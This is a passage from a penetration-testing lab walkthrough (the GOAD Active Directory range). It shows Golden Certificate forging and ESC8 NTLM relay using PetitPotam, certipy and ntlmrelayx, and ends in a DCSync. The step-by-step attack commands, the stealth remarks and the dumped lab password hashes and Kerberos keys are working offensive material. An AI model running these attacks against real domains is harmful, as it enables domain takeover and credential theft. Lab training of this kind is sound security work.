

Upon success, Certipy will retrieve the key material and save it locally as **ESSOS-CA.pfx**. This file is the "crown jewel" of the infrastructure.

With the CA's private key in our possession, we effectively become our own portable Certificate Authority. We can now forge a certificate for any user in the domain. We will target the Administrator again, but this time we will set the terms. Unlike a standard certificate which might expire in 1 year, we can mint a Golden Certificate valid for 10 years or more, providing us with long-term persistence that survives password changes (including the **`krbtgt`** password cycle). We use the `forge` module to forge a certificate as Domain Admin.

`certipy-ad forge -ca-pfx 'ESSOS-CA.pfx' -upn 'administrator@essos.local'`



The output, `administrator.pfx`, is a cryptographically valid identity document that was created entirely on our attack machine, bypassing all defensive controls on the CA server itself. At this specific moment, we are not interacting with **Braavos** (the CA) or **Meereen** (the DC). We are performing a cryptographic operation entirely within the memory of our local Kali attack box.
When we backed up the CA key (`ESSOS-CA.pfx`) in the previous step, we effectively stole the "digital stamp." The command `certipy-ad forge` simply takes that stolen stamp and applies it to a piece of digital paper that says "I am the Administrator." Since we hold the private key, we do not need the Certificate Authority server to validate or process anything, we are mathematically simulating the authority's signature function.


Because this happens offline, this specific certificate **does not exist** in the CA's database.

- It generates **no logs** on the CA server.
- It leaves **no record** in the "Issued Certificates" list in the MMC console.
- An administrator auditing the CA for malicious requests will see absolutely nothing.
The only time we touch the network again is in the next step, when we present this "Ghost" certificate to the Domain Controller for authentication. Until then, we are invisible.

Finally, we operationalize this forged certificate just as we did in previous steps. We present it to the Domain Controller (**Meereen**) via PKINIT to obtain our Ticket Granting Ticket (TGT).

`certipy-ad auth -pfx administrator.pfx -dc-ip '10.4.10.12'`



We have successfully utilized the **Golden Certificate** to generate a Kerberos TGT (.ccache), which allowed us to access services like SMB as the Administrator.

`export KRB5CCNAME=administrator.ccache
poetry run netexec smb meereen.essos.local -k --use-kcache`



## **Pass The Certificate with SChannel**

## **Pass The Cert with PKINIT**

## **III. The Network Relay Vectors (ESC6, ESC8, ESC11)**

These vulnerabilities move the attack from the database to the wire, exploiting how the Certificate Authority authenticates incoming enrollment requests.

**ESC8 (HTTP Web Enrollment Relay)** is arguably the most pervasive flaw in modern networks. Many organizations install the ADCS Web Enrollment role (providing a web page for certificate requests) without understanding the implications. The web interface often accepts **NTLM authentication** but does not enforce Extended Protection for Authentication (EPA) or SSL usage by default. This allows us to combine our Phase 4 techniques (Responder/PetitPotam) to coerce a Domain Controller to authenticate to us, and then relay that authentication to the CA's web interface. We simply ask the CA to issue a "Machine" certificate for the DC connecting to us, and we walk away with the TGT for the Domain Controller.

**ESC6 (The "EDITF" Flaw)** targets a global setting on the CA known as `EDITF_ATTRIBUTESUBJECTALTNAME2`. If an administrator has enabled this, *every* template in the environment becomes an ESC1 vulnerability. The CA is instructed to blindly accept user-supplied names for *any* request, ignoring the template's individual safety settings. **ESC11** is the RPC variant of the ESC8 relay attack, targeting the intricate DCE/RPC named pipes (ICPR) used for enrollment when packet signing is not strictly enforced.

## **IV. Logic and Mapping Flaws (ESC9, ESC10, ESC13, ESC14, ESC15)**

The final frontier of ADCS exploitation involves complex abuses of how the Domain Controller maps a certificate back to a user account. This is where research from sources like SpecterOps and Ludus is cutting edge.

**ESC9 and ESC10 (No Key Packet & Strong Mapping)** exploit the nuances of the `msDS-StrongCertificateBindingInformation` attribute and the UPN mapping flags (`SCHANNEL_AUTHENTICATION`). By manipulating a victim object's `userPrincipalName` to collide with a machine account or altering specific Shadow Principal bits, we can trick the KDC's lookup logic.

**ESC13 (Issuance Policies)** focuses on hidden links. Sometimes a template appears restricted, but it contains an "Issuance Policy" linked to a specific group OID. If our user is a member of a group linked to that OID, we might be allowed to enroll even if standard permissions say otherwise.

Finally, **ESC14 (Weak Mapping)** and **ESC15 (V1/V0 Schema Abuse)** target the configuration of `altSecurityIdentities`. By creating a complex collision where the subject of our certificate (X509 Distinguished Name) maps ambiguously to multiple users in the directory, we can force the Domain Controller to log us in as the high-privilege target due to the order in which it resolves ambiguous mappings.

By synthesizing these 16 vectors, we treat ADCS not just as a service, but as a shadow identity provider that operates with higher privileges and fewer safeguards than the rest of the domain. 

# **ESC8 - coerce to domain admin - NTLM Relay to ADCS HTTP Endpoints**

**Securing AD CS: Mitigating NTLM Relay Attacks**

In summary, if an environment has AD CS installed, a vulnerable web enrollment endpoint, and at least one published certificate template allowing domain computer enrollment and client authentication (such as the default `Machine` template), attackers can potentially compromise any computer running the spooler service.

AD CS supports various HTTP-based enrollment methods through additional server roles, all susceptible to NTLM relay attacks. By exploiting NTLM relay, an attacker on a compromised machine can impersonate any AD account authenticated via inbound NTLM. This allows them to access web interfaces and request client authentication certificates using templates like `User` or `Machine`.

The web enrollment interface (accessible at `http://<caserver>/certsrv/`) is an older ASP application that exclusively supports NTLM authentication via its Authorization HTTP header, making it vulnerable to NTLM relay attacks. This protocol limitation means more secure protocols like Kerberos cannot be used.

Typical challenges with NTLM relay include short session lifetimes and restrictions imposed by NTLM signing enforcement. However, leveraging NTLM relay to obtain a user certificate circumvents these issues. The certificate remains valid as long as specified, allowing access to services that enforce NTLM signing.

This scenario underscores the importance of securing AD CS configurations and endpoints against NTLM relay attacks to mitigate such vulnerabilities effectively.



**Image Source:** **[https://www.crowe.com/-/media/crowe/llp/sc10-media/insights/publications/cybersecurity-watch/content-2000x1125/cduw2301-001w-cyberblog-ad-cs-charts-esc8.jpg?la=en-us&rev=95faa4da3b4c4c6a9b91564bd3448c82&hash=44F7B2264CE46A2772164D8674D5A897](https://www.crowe.com/-/media/crowe/llp/sc10-media/insights/publications/cybersecurity-watch/content-2000x1125/cduw2301-001w-cyberblog-ad-cs-charts-esc8.jpg?la=en-us&rev=95faa4da3b4c4c6a9b91564bd3448c82&hash=44F7B2264CE46A2772164D8674D5A897)*

### Specifications for Executing the Attack

To successfully execute this attack, the following conditions must be met:

1. **ADCS Configuration**: AD Certificate Services (ADCS) must be operational within the domain with web enrollment enabled. This allows for HTTP-based requests for certificates.
1. **Coercion Method**: A functional coercion method is required. In this instance, we utilize PetitPotam for unauthenticated attacks. Other methods, such as PrinterBug, can achieve similar results.
1. **Exploitable Template**: An exploitable certificate template must be available. Typically, the *DomainController* template is present by default in Active Directory environments. This template is crucial for escalating privileges and executing the attack effectively.
### NTLM Relay to AD CS HTTP Endpoints

`http://10.4.10.23/certsrv/certfnsh.asp`


So far we can see that the server is asking for an authentication. 

# PetitPotam

PoC tool to coerce Windows hosts to authenticate to other machines via MS-EFSRPC EfsRpcOpenFileRaw or other functions :)

That’s great. Now let’s start `ntlmrelayx` tool to listen and relay SMB authetication to HTTP.

`ntlmrelayx.py -t http://10.4.10.23/certsrv/certnsh.asp -smb2support --adcs --template DomainController`

Launch the coerce with [petitpotam](https://github.com/topotam/PetitPotam) unauthenticated (this will no more work on an up to date active directory but other coerce methods authenticated will work the same)

`petitpotam.py 10.4.10.1 meereen.essos.local`



ntlmrelayx will relay the authentication to the web enrollment and get the certificate



Since we already have the Certificate, let’s add it into a file and user [gettgtpkinit.py](http://gettgtpkinit.py/) to request the Ticket Granting Ticket.

`gettgtpkinit.py -pfx-base64 $(cat cert.b64) 'essos.local'/'meereen$' 'meereen.ccache'`



And now we got a TGT for meereen so we can launch a DCsync and get all the ntds.dit content.

`secretsdump.py -k -no-pass 'ESSOS.LOCAL'/'meereen$'@'meereen.essos.local'`

```
[-] Policy SPN target name validation might be restricting full DRSUAPI dump. Try -just-dc-user
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:54296a48cd30259cc88095373cec24da:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:97a308a8d8ce5b15c38f9c23bf02a95f:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
vagrant:1000:aad3b435b51404eeaad3b435b51404ee:e02bc503339d51f71d913c245d35b50b:::
daenerys.targaryen:1110:aad3b435b51404eeaad3b435b51404ee:34534854d33b398b66684072224bb47a:::
viserys.targaryen:1111:aad3b435b51404eeaad3b435b51404ee:d96a55df6bef5e0b4d6d956088036097:::
khal.drogo:1112:aad3b435b51404eeaad3b435b51404ee:739120ebc4dd940310bc4bb5c9d37021:::
jorah.mormont:1113:aad3b435b51404eeaad3b435b51404ee:4d737ec9ecf0b9955a161773cfed9611:::
sql_svc:1114:aad3b435b51404eeaad3b435b51404ee:84a5092f53390ea48d660be52b93b804:::
MEEREEN$:1001:aad3b435b51404eeaad3b435b51404ee:1658546257058b9db06169b70bd26fdb:::
BRAAVOS$:1104:aad3b435b51404eeaad3b435b51404ee:b79cf22faddf0772160cb838f5f815fc:::
SEVENKINGDOMS$:1105:aad3b435b51404eeaad3b435b51404ee:478abe5b3ab648634ac4a3da1fc12f6f:::
[*] Kerberos keys grabbed
krbtgt:aes256-cts-hmac-sha1-96:1cb914e020e383e2f58c4801d73d3fc564e79265735d6b51ac7632d6519e99a7
krbtgt:aes128-cts-hmac-sha1-96:bfd77e8eb5f83600fa4972b29f833b84
krbtgt:des-cbc-md5:b6e6973d433d98fb
daenerys.targaryen:aes256-cts-hmac-sha1-96:cf091fbd07f729567ac448ba96c08b12fa67c1372f439ae093f67c6e2cf82378
daenerys.targaryen:aes128-cts-hmac-sha1-96:eeb91a725e7c7d83bfc7970532f2b69c
daenerys.targaryen:des-cbc-md5:bc6ddf7ce60d29cd
viserys.targaryen:aes256-cts-hmac-sha1-96:b4124b8311d9d84ee45455bccbc48a108d366d5887b35428075b644e6724c96e
viserys.targaryen:aes128-cts-hmac-sha1-96:4b34e2537da4f1ac2d16135a5cb9bd3e
viserys.targaryen:des-cbc-md5:70528fa13bc1f2a1
khal.drogo:aes256-cts-hmac-sha1-96:2ef916a78335b11da896216ad6a4f3b1fd6276938d14070444900a75e5bf7eb4
khal.drogo:aes128-cts-hmac-sha1-96:7d76da251df8d5cec9bf3732e1f6c1ac
khal.drogo:des-cbc-md5:b5ec4c1032ef020d
jorah.mormont:aes256-cts-hmac-sha1-96:286398f9a9317f08acd3323e5cef90f9e84628c43597850e22d69c8402a26ece
jorah.mormont:aes128-cts-hmac-sha1-96:896e68f8c9ca6c608d3feb051f0de671
jorah.mormont:des-cbc-md5:b926916289464ffb
sql_svc:aes256-cts-hmac-sha1-96:ca26951b04c2d410864366d048d7b9cbb252a810007368a1afcf54adaa1c0516
sql_svc:aes128-cts-hmac-sha1-96:dc0da2bdf6dc56423074a4fd8a8fa5f8
sql_svc:des-cbc-md5:91d6b0df31b52a3d
MEEREEN$:aes256-cts-hmac-sha1-96:245ae9447cc1a6d48e5966876add607963951d36f341d36effbd0b9aff5ff8c7
MEEREEN$:aes128-cts-hmac-sha1-96:240156dbf832256f76886aa8bdbd8d40
MEEREEN$:des-cbc-md5:3ec4cdf78308fdb9
BRAAVOS$:aes256-cts-hmac-sha1-96:2c686eab9b8869de6d387d40b9addfc4fd4ba7779895d1cb9e684a20dd2462fd
BRAAVOS$:aes128-cts-hmac-sha1-96:c56a504375acc548ba44c7e9e9ba9b6f
BRAAVOS$:des-cbc-md5:1086cd2a2c2a8916
SEVENKINGDOMS$:aes256-cts-hmac-sha1-96:2646892f5693491c86e5369a334a0721a31597f0f50e1805a2f244fb2532aac2
SEVENKINGDOMS$:aes128-cts-hmac-sha1-96:a2df9dab576856ef49ffb73cb87c307d
SEVENKINGDOMS$:des-cbc-md5:e920b3430b1af454
```



# **ESC8 - with certipy**

Let’s do the same attack with [certipy](https://github.com/ly4k/Certipy), setup the listener.

`sudo certipy relay -target 10.4.10.23 -template DomainController`



Now we trig the coerce.

`python3 PetitPotam.py 10.4.10.1 meereen.essos.local`



Now we got the certificate so we can get the NT hash of the DC.
Let’s request the Ticket Granting Ticket the Certificate .pfx.

`sudo certipy auth -pfx meereen.pfx -dc-ip 10.4.10.12`

```
[*] Using principal: meereen$@essos.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'meereen.ccache'
[*] Trying to retrieve NT hash for 'meereen$'
[*] Got hash for 'meereen$@essos.local': aad3b435b51404eeaad3b435b51404ee:1658546257058b9db06169b70bd26fdb
```




Now that we were able to  request the TGT from the Domain Controller we can launch a DCsync with secretsdump.

`secretsdump.py -k -no-pass ESSOS.LOCAL/'meereen$'@meereen.essos.local`

### Time Skew

It’s possible to run into issues if the clock on my system and the DC are off by more than a few minutes. That will happen here. If I try to run `secretsdump.py` now, it will fail:


---

*Back to [GOAD Overview](../README.md)*
